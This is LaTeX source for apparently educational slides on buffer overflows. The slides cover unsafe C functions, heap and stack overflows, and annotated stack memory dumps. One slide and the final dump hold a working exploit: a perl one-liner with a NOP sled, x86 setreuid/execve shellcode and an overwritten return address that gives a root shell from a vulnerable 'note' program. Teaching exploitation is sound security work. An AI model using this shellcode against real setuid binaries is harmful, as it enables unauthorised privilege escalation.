\section{Buffer Overflows}
%\begin{frame}{Buffer Overflows}
%Bufferoverflow
%*Stack based / Heap based (just a slide)
%*EBP+4 (or RBP+8)
%*Unsafe functions (that ones which permit a buffer overrun)
%*(quick Example ?)
%\end{frame}

%\subsection{What is BOF?}
\begin{frame}[fragile,allowframebreaks]{What is BOF?}
	\begin{figure}
		\centering
		
\includegraphics[height=.7\textheight]{imgs/segfault.png}
		\caption{BOF segmentation fault}
		\label{fig:segfault}
	\end{figure}
	\begin{block}{Also known as}
		\begin{verbatim}
			user$ ./note AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
			Segmentation fault
		\end{verbatim}
	\end{block}
\end{frame}
\begin{frame}[fragile,allowframebreaks]{How to use BOF?}
	\begin{figure}
		\centering
		
\includegraphics[height=.7\textheight]{imgs/whoami.png}
		\caption{BOF whoami: root}
		\label{fig:whoami}
	\end{figure}
	\begin{block}{Also known as}
		\begin{verbatim}
			user$ ./note `perl -e 'printf("\x90" x 153 .
    "\x31\xdb\x31\xc9\x31\xc0\xb0\xcb\xcd\x80\x31\xc0\x50
     \x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50
     \x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80\x31\xdb\xb0\x01
     \xcd\x80" . "\x90" x 22 . "\xef\xbe\xad\xde")'`
			sh-3.1# whoami
			root
		\end{verbatim}
	\end{block}
\end{frame}

\subsection{Unsafe functions}
\begin{frame}[fragile,allowframebreaks]{Unsafe functions}
\begin{block}{Unsafe C functions}
	\begin{itemize}
		\item \emph{gets()}: replace it with \emph{fgets()} or \emph{gets\_s()}
		\item \emph{strcpy()}: replace it with \emph{strncpy()} or \emph{strlcpy()}
		\item \emph{strcat()}: replace it with \emph{strncat()} or \emph{strlcat()}
		\item \emph{sprintf()}: replace it with \emph{snprintf()}
		\item \emph{printf()}: improper use of it can lead to exploitation, never call it with variable char* instead of constant char*.
	\end{itemize}
	Essentially, every C functions that don't check the size of the destination buffers
\end{block}
\end{frame}

\subsection{Basic Overflow}
\begin{frame}[fragile,allowframebreaks]{Basic Overflow}
	In the following example, a program has defined two data items which are adjacent in memory: an 8-byte-long string buffer, A, and a two-byte integer (short), B. Initially, A contains nothing but zero bytes, and B contains the number 1979. Characters are one byte wide.
	\ccode
	\begin{lstlisting}
	char A[8] = {0,0,0,0,0,0,0,0};
	short B = 1979;
	\end{lstlisting}
	\begin{figure}
		\centering
		
\includegraphics[width=\textwidth]{imgs/initialAB.png}
		\caption{A and B variables initial state}
		\label{fig:initialAB}
	\end{figure}
\framebreak
	Now, the program attempts to store the null-terminated string "excessive" in the A buffer. "excessive" is 9 characters long, and A can take 8 characters. By failing to check the length of the string, it overwrites the value of B
	\ccode
	\begin{lstlisting}
	gets(A);
	\end{lstlisting}
	\begin{figure}
		\centering
		
\includegraphics[width=\textwidth]{imgs/finalAB.png}
		\caption{A and B variables final state}
		\label{fig:finalAB}
	\end{figure}
\end{frame}

\subsection{Heap-based Overflow}
\begin{frame}[fragile,allowframebreaks]{Heap-based Overflow}
	Heap-based overflow is a type of buffer overflow that occurs in the heap data area. Memory on the heap is dynamically allocated by the application at run-time and typically contains program data.\\
\begin{columns}[T]
	\begin{column}{.47\textwidth}
%	\begin{block}{A quick look}
		%Heap overflows are exploitable in a different manner to that of stack-based overflows.\\
		Exploitation is performed by corrupting this data in specific ways to cause the application to overwrite internal structures such as linked list pointers.\\
		The canonical heap overflow technique overwrites dynamic memory allocation linkage (such as malloc meta data) and uses the resulting pointer exchange to overwrite a program function pointer.
%	\end{block}
	\end{column}
	\begin{column}{.5\textwidth}
		
\includegraphics[width=\textwidth]{imgs/heap.png}
		\label{fig:heap}
	\end{column}
\end{columns}
\end{frame}

\subsection{Stack-based Overflow}
\begin{frame}[fragile,allowframebreaks]{Stack-based Overflow}
	Stack-based buffer overflows manipulate the program to their advantage in one of several ways:
	\begin{itemize}
		\item By overwriting a local variable that is near the buffer in memory on the stack to change the behaviour of the program which may benefit the attacker.
		\item By overwriting a function pointer, or exception handler, which is subsequently executed.
		\item By overwriting the return address in a stack frame. Once the function returns, execution will resume at the return address as specified by the attacker, usually a user input filled buffer.
	\end{itemize}
\framebreak
\begin{columns}[T]
	\begin{column}{.5\textwidth}
	\tiny\begin{block}{./note "This is my sixth note"}
	\tiny\begin{verbatim}
Memory: addNote(): 80484f9,
main(): 80484b4, buffer:bffff454,
n_ebp: bffff528, n_esp: bffff450,
m_ebp: bffff538, m_esp: bffff534
        address    hex val   string val
n_esp > bffff450:  bffff450  ?  ?  ?  P
buffer> bffff454:  73696854  s  i  h  T
        bffff458:  20736920     s  i   
        bffff45c:  7320796d  s     y  m
        bffff460:  68747869  h  t  x  i
        bffff464:  746f6e20  t  o  n   
        bffff468:  b7fc0065  ?  ?     e
        ...        ...       ...
        bffff510:  00000000           
        bffff514:  00000000           
endBuf> bffff518:  bffff538  ?  ?  ?  8
        bffff51c:  080487fb        ?  ?
        bffff520:  b7fcaffc  ?  ?  ?  ?
        bffff524:  0804a008        ?  
n_ebp > bffff528:  bffff538  ?  ?  ?  8
n_ret > bffff52c:  080484ee     ?  ?
        bffff530:  bffff709  ?  ?  ?  	
m_esp > bffff534:  b8000ce0  ?        ?
m_ebp > bffff538:  bffff598  ?  ?  ?  ?
m_ret > bffff53c:  b7eb4e14  ?  ?  N  
        bffff540:  00000002	       
	\end{verbatim}
	\end{block}
	\end{column}
	\begin{column}{.5\textwidth}
	\tiny\begin{block}{./note AAAAAAAAAAAAAAAA...}
	\tiny\begin{verbatim}
Memory: addNote(): 80484f9
main(): 80484b4, buffer:bffff314
n_ebp: bffff3e8, n_esp: bffff310
m_ebp: bffff3f8, m_esp: bffff3f4
        address    hex val	string val
n_esp > bffff310:  bffff310  ?  ?  ?  
buffer> bffff314:  41414141  A  A  A  A
        bffff318:  41414141  A  A  A  A
        bffff31c:  41414141  A  A  A  A
        bffff320:  41414141  A  A  A  A
        bffff324:  41414141  A  A  A  A
        bffff328:  41414141  A  A  A  A
        ...        ...       ...
        bffff3d0:  41414141  A  A  A  A
        bffff3d4:  41414141  A  A  A  A
endBuf> bffff3d8:  41414141  A  A  A  A
        bffff3dc:  41414141  A  A  A  A
        bffff3e0:  41414141  A  A  A  A
        bffff3e4:  0804a008        ?  
n_ebp > bffff3e8:  41414141  A  A  A  A
n_ret > bffff3ec:  41414141  A  A  A  A
        bffff3f0:  41414141  A  A  A  A
m_esp > bffff3f4:  41414141  A  A  A  A
m_ebp > bffff3f8:  41414141  A  A  A  A
m_ret > bffff3fc:  41414141  A  A  A  A
        bffff400:  41414141  A  A  A  A
Segmentation fault
	\end{verbatim}
	\end{block}
	\end{column}
\end{columns}
\framebreak
\tiny\begin{block}{Overwriting the return address}
	\begin{columns}[T]
	\begin{column}{.4\textwidth}
	\tiny\begin{verbatim}
Memory: addNote(): 80484f9,
main(): 80484b4, buffer:bffff384
n_ebp: bffff458, n_esp: bffff380
m_ebp: bffff468, m_esp: bffff464
        address    hex val   string val
n_esp > bffff380:  bffff380  ?  ?  ?  ?
buffer> bffff384:  90909090  ?  ?  ?  ?
        bffff388:  90909090  ?  ?  ?  ?
        ...        ...       ...
        bffff418:  90909090  ?  ?  ?  ?
        bffff41c:  31db3190  1  ?  1  ?
        bffff420:  b0c031c9  ?  ?  1  ?
        bffff424:  3180cdcb  1  ?  ?  ?
        bffff428:  2f6850c0  /  h  P  ?
        bffff42c:  6868732f  h  h  s  /
        bffff430:  6e69622f  n  i  b  /
        bffff434:  5350e389  S  P  ?  ?
        bffff438:  d231e189  ?  1  ?  ?
        bffff43c:  80cd0bb0  ?  ?     ?
	\end{verbatim}
	\end{column}
	\begin{column}{.4\textwidth}
	\tiny\begin{verbatim}
        bffff440:  01b0db31     ?  ?  1
        bffff444:  909080cd  ?  ?  ?  ?
endBuf> bffff448:  90909090  ?  ?  ?  ?
        bffff44c:  90909090  ?  ?  ?  ?
        bffff450:  90909090  ?  ?  ?  ?
        bffff454:  0804a008     ?  
n_ebp > bffff458:  90909090  ?  ?  ?  ?
n_ret > bffff45c:  bffff388  ?  ?  ?  ?
        bffff460:  bffff600  ?  ?  ?  
m_esp > bffff464:  b8000ce0  ?        ?
m_ebp > bffff468:  bffff4c8  ?  ?  ?  ?
m_ret > bffff46c:  b7eb4e14  ?  ?  N  
        bffff470:  00000002           
sh-3.1# whoami
root
sh-3.1# exit
	\end{verbatim}
	\end{column}
\end{columns}
	\end{block}
\end{frame}
